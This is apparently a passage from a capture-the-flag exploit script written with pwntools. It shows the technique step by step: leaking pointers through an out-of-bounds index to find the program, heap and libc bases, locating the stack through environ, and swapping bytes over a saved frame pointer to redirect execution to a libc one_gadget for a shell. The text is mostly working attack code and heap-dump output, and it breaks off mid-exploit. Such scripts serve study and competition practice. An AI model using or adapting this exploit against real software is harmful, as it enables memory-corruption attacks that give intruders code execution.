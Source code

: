 ```python

    def leak_relative_ptr(b):
        for x in range(8):
            r.sendline(f"{b+x} {1+x}".encode())

        for _ in range(8):
            r.readuntil(b"exception:")
        r.readuntil(b"4m")
        r.recvuntil(b"L")
        ptr = u64(r.read(6).ljust(8,b"\x00"))
        for x in range(8):
            r.sendline(f"{b+x} {1+x}".encode())

        for _ in range(8):
            r.readuntil(b"exception:")
        return ptr


    __dso_handle = leak_relative_ptr(-24)
    e.address =  __dso_handle - e.symbols['__dso_handle']
    log.info(f'__dso_handle = {hex(__dso_handle)}')
    log.info(f"program base = {hex(e.address)}")
    log.info(f"offset to a heap page = {hex(heap_page)}")
    maybe_tcache_perthread = heap_page + 8 - 0x20
    r.readuntil(b"exception:")
    while True:
        r.sendline(f"1 {maybe_tcache_perthread}".encode())
        r.recvuntil(b"L")
        if r.recv(1) == b'\x91':
            r.readuntil(b"exception:")
            break
        r.readuntil(b"exception:")
        maybe_tcache_perthread -= 0x1000
    heap_base = maybe_tcache_perthread - 0x8
    log.info(f"offset to heap base = {hex(heap_base)}")
    top_chunk = heap_base + 0x0ab8
    r.sendline(f"-3 {top_chunk+2}".encode())
    r.sendline(b"-1 -"+b"1"*0x800)

    libc.address = leak_relative_ptr(top_chunk+8) - 0x21ace0

    def leak_absolute_ptr(ptr):
        return leak_relative_ptr(ptr - e.symbols['data'])

    def swap_absolute_str(addr_a, addr_b):
        return f"{addr_a-e.symbols['data']} {addr_b-e.symbols['data']}".encode()    

    log.info(f"libc.address = {hex(libc.address)}")
    stack_ret_address = leak_absolute_ptr(libc.symbols['environ']) - 0x120
    log.info(f"stack address (main saved ret) = {hex(stack_ret_address)}")
    saved_rbp_address = stack_ret_address - 8
    one_gadget = libc.address + 0xebc88
    log.info(f"one_gadget = {hex(one_gadget)}")

    one_gadget_bytes = p64(one_gadget)[0:3]
    if len(one_gadget_bytes) != len(set(one_gadget_bytes)):
        log.error(f"lower 3 one gadget bytes must all be unique")

    for i in range(8):
        r.sendline(swap_absolute_str(e.symbols['data']+heap_base+0xac0+i, saved_rbp_address+i))

    # writable=True was giving me r sections smh manually check that
```

[heap]: 0x0000555555564ac0  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000
[heap]: 0x0000555555564ac8  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000